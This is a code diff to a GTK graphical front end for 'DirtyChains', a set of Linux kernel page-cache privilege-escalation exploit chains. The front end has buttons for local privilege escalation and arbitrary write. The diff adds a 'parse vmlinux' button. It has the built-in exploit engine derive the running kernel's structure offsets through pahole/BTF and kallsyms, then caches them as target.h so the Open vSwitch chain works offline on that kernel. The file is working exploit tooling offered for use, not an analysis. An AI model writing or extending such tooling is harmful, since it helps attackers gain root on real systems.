

64531 参数区新增「解析 vmlinux」按钮：pahole/BTF 推导本机内核偏移并落盘 offset/<release>/target.h

Changed region(s): [[0.2727, 0.431, 0.7576, 0.8929], [0.8485, 0.3387, 0.9697, 0.3695], [0.303, 0.9544, 0.4242, 0.9852]]

diff --git a/dirtyfrag-gui.c b/dirtyfrag-gui.c
@@ -3693,7 +3693,7 @@ int ovswrap_main(int argc, char **argv)
 
 #define APP_TITLE       "DirtyChains · 页缓存提权"
 /* 构建标识: 标题栏副标题上直接显示, 用来确认跑的是不是最新这份 */
-#define DF_BUILD        "2026-10-31-r18"
+#define DF_BUILD        "2026-10-31-r19"
 #define APP_SUBTITLE    "六链 PoC 图形前端 · " DF_BUILD
 #define LOG_MAX_LINES   20000
 #define PTY_COLS        110
@@ -3796,6 +3796,7 @@ typedef struct {
     GtkWidget *lbl_name, *lbl_desc, *lbl_need;
     GtkWidget *entry_target, *entry_to, *entry_set, *entry_offset;
     GtkWidget *entry_krec;   /* OVS 链: 指定内核版本匹配 offset/ 表 */
+    GtkWidget *btn_vmlinux;  /* OVS 链: 解析 vmlinux (pahole/BTF 推导偏移) */
     /* 参数面板各行的标签/按钮, 便于按所选 CVE 显隐 */
     GtkWidget *lbl_t, *browse_t;
     GtkWidget *lbl_to, *browse_to;
@@ -4733,6 +4734,7 @@ static void sync_params_ui(App *a)
 
     gtk_widget_set_visible(a->lbl_krec,  all ? FALSE : c->engine == 1);
     gtk_widget_set_visible(a->entry_krec, all ? FALSE : c->engine == 1);
+    gtk_widget_set_visible(a->btn_vmlinux, all ? FALSE : c->engine == 1);
 
     if (!all) {
         /* 占位提示随链微调 */
@@ -5022,6 +5024,168 @@ static void act_write(GtkWidget *w, gpointer data)
         return;
 
     app_spawn(a, args, "通用写");
+}
+
+/*
+ * 「解析 vmlinux」(仅 OVS 链):
+ * 让内置引擎用 pahole/BTF + kallsyms/System.map 推导本机内核的
+ * 结构偏移 —— stdout 是 JSON 摘要 / target.h 文本, 诊断走 stderr。
+ * 解析出的 target.h 落到 <程序目录>/offset/<release>/, 以后没装
+ * pahole 的机器也能直接命中配置表。
+ */
+static void act_vmlinux(GtkWidget *w, gpointer data)
+{
+    App *a = data;
+    const Chain *c = cur_chain(a);
+    char *argv[6];
+    int argc;
+    char *json = NULL, *th = NULL, *err1 = NULL, *err2 = NULL;
+    gint st;
+    GError *ge = NULL;
+    char msg[PATH_BUF], exe[512], exdir[512], offdir[600], sub[640], path[760];
+    const char *rel = NULL, *p, *q;
+    ssize_t rl;
+
+    (void)w;
+    if (!c || c->engine != 1)
+        return;
+    if (!a->poc_path) {
+        log_append_plain(a, "[!] 找不到内置引擎，无法解析 vmlinux。\n");
+        log_flush(a);
+        return;
+    }
+    if (a->running) {
+        gtk_label_set_text(GTK_LABEL(a->status_lbl), "已有任务在运行");
+        return;
+    }
+
+    ansi_feed(a, "\n\033[2m══ 解析 vmlinux：pahole/BTF 推导本机内核偏移 ══\n\033[0m\n",
+              strlen("\n\033[2m══ 解析 vmlinux：pahole/BTF 推导本机内核偏移 ══\n\033[0m\n"));
+    log_flush(a);
+    gtk_label_set_text(GTK_LABEL(a->status_lbl), "正在解析 vmlinux …");
+    gtk_widget_set_name(a->status_lbl, "status-run");
+
+    /* 第 1 步: -dump-krec, stdout 是 JSON, 诊断在 stderr */
+    argc = 0;
+    argv[argc++] = a->poc_path;
+    if (a->poc_builtin)
+        argv[argc++] = "--ovs";
+    argv[argc++] = "-dump-krec";
+    argv[argc] = NULL;
+
+    if (!g_spawn_sync(NULL, argv, NULL, G_SPAWN_SEARCH_PATH,
+                      NULL, NULL, &json, &err1, &st, &ge)) {
+        g_snprintf(msg, sizeof(msg), "[!] 启动引擎失败: %s\n", ge->message);
+        log_append_plain(a, msg);
+        log_flush(a);
+        g_error_free(ge);
+        return;
+    }
+    if (err1 && *err1)
+        log_append_plain(a, err1);
+    if (!WIFEXITED(st) || WEXITSTATUS(st) != 0) {
+        log_append_plain(a,
+            "[!] 解析失败。确认已装 pahole (sudo apt install dwarves)，\n"
+            "    且 /boot/System.map-$(uname -r) 或 /proc/kallsyms (root) 可读；\n"
+            "    卡在 ovs_conntrack_info 就先 sudo modprobe openvswitch。\n");
+        log_flush(a);
+        gtk_label_set_text(GTK_LABEL(a->status_lbl), "vmlinux 解析失败");
+        g_free(json);
+        g_free(err1);
+        return;
+    }
+    if (json && *json) {
+        log_append_plain(a, json);
+        if (*(json) && json[strlen(json) - 1] != '\n')
+            log_append_plain(a, "\n");
+    }
+
+    /* 从 JSON 里抠 release */
+    if (json && (p = strstr(json, "\"release\"")) != NULL &&
+        (p = strchr(p + 9, '"')) != NULL) {
+        p++;
+        if ((q = strchr(p, '"')) != NULL)
+            rel = g_strndup(p, (gsize)(q - p));
+    }
+    if (!rel) {
+        log_append_plain(a, "[!] 解析成功，但拿不到内核版本号，跳过落盘。\n");
+        log_flush(a);
+        g_free(json);
+        g_free(err1);
+        return;
+    }
+
+    /* 第 2 步: -dump-target 生成 target.h 文本 */
+    argc = 0;
+    argv[argc++] = a->poc_path;
+    if (a->poc_builtin)
+        argv[argc++] = "--ovs";
+    argv[argc++] = "-dump-target";
+    argv[argc] = NULL;
+
+    if (!g_spawn_sync(NULL, argv, NULL, G_SPAWN_SEARCH_PATH,
+                      NULL, NULL, &th, &err2, &st, &ge) ||
+        !WIFEXITED(st) || WEXITSTATUS(st) != 0 || !th || !*th) {
+        g_snprintf(msg, sizeof(msg),
+                   "[!] 生成 target.h 失败 (%s)。\n",
+                   ge ? ge->message : "引擎返回非 0");
+        log_append_plain(a, msg);
+        log_flush(a);
+        if (ge)
+            g_error_free(ge);
+        g_free(json);
+        g_free((char *)rel);
+        g_free(err1);
+        g_free(err2);
+        return;
+    }
+
+    /* 落盘: <程序目录>/offset/<release>/target.h */
+    rl = readlink("/proc/self/exe", exe, sizeof(exe) - 1);
+    if (rl <= 0) {
+        log_append_plain(a, "[!] 读不到程序路径，跳过落盘。\n");
+        log_flush(a);
+        g_free(json);
+        g_free(th);
+        g_free((char *)rel);
+        g_free(err1);
+        g_free(err2);
+        return;
+    }
+    exe[rl] = '\0';
+    g_strlcpy(exdir, exe, sizeof(exdir));
+    {
+        char *slash = strrchr(exdir, '/');
+
+        if (slash)
+            *slash = '\0';
+    }
+    g_snprintf(offdir, sizeof(offdir), "%s/offset", exdir);
+    g_snprintf(sub, sizeof(sub), "%s/%s", offdir, rel);
+    g_snprintf(path, sizeof(path), "%s/target.h", sub);
+
+    if (g_mkdir_with_parents(sub, 0755) != 0 ||
+        g_file_set_contents(path, th, -1, NULL) == FALSE) {
+        g_snprintf(msg, sizeof(msg),
+                   "[!] 写入 %s 失败: %s\n", path, strerror(errno));
+        log_append_plain(a, msg);
+    } else {
+        g_snprintf(msg, sizeof(msg),
+                   "\033[32m[+] 已写入 %s (%ld 字节)。\033[0m\n"
+                   "    之后 OVS 链在这台机器上会直接命中配置表，"
+                   "不再需要 pahole/BTF。\n",
+                   path, (long)strlen(th));
+        log_append_plain(a, msg);
+        g_snprintf(msg, sizeof(msg), "vmlinux 解析完成: %s", rel);
+        gtk_label_set_text(GTK_LABEL(a->status_lbl), msg);
+    }
+    log_flush(a);
+
+    g_free(json);
+    g_free(th);
+    g_free((char *)rel);
+    g_free(err1);
+    g_free(err2);
 }
 
 static void on_toggle_expand(GtkWidget *w, gpointer data)
@@ -5395,7 +5559,14 @@ static GtkWidget *build_params(App *a)
                                 "传给 OVS 链的 -krec 参数，强制匹配 offset/ 下"
                                 "指定内核版本的偏移表；留空则按运行内核自动选。");
     gtk_widget_set_hexpand(a->entry_krec, TRUE);
-    gtk_grid_attach(GTK_GRID(grid), a->entry_krec, 1, 4, 2, 1);
+    gtk_grid_attach(GTK_GRID(grid), a->entry_krec, 1, 4, 1, 1);
+
+    a->btn_vmlinux = gtk_button_new_with_label("解析 vmlinux");
+    gtk_widget_set_tooltip_text(a->btn_vmlinux,
+                                "用 pahole/BTF 解析本机内核结构偏移并生成 target.h，"
+                                "写入程序目录的 offset/<内核版本>/ 供以后离线使用。\n"
+                                "需要 pahole (sudo apt install dwarves)。");
+    gtk_grid_attach(GTK_GRID(grid), a->btn_vmlinux, 2, 4, 1, 1);
 
     return grid;
 }
@@ -6095,6 +6266,7 @@ static void build_window(App *a)
     g_signal_connect(a->btn_find, "clicked", G_CALLBACK(act_find), a);
     g_signal_connect(a->btn_lpe, "clicked", G_CALLBACK(act_lpe), a);
     g_signal_connect(a->btn_write, "clicked", G_CALLBACK(act_write), a);
+    g_signal_connect(a->btn_vmlinux, "clicked", G_CALLBACK(act_vmlinux), a);
     g_signal_connect(a->btn_stop, "clicked", G_CALLBACK(act_stop), a);
     g_signal_connect(a->btn_send, "clicked", G_CALLBACK(act_send), a);
     g_signal_connect(a->btn_ctrlc, "clicked", G_CALLBACK(act_ctrlc), a);
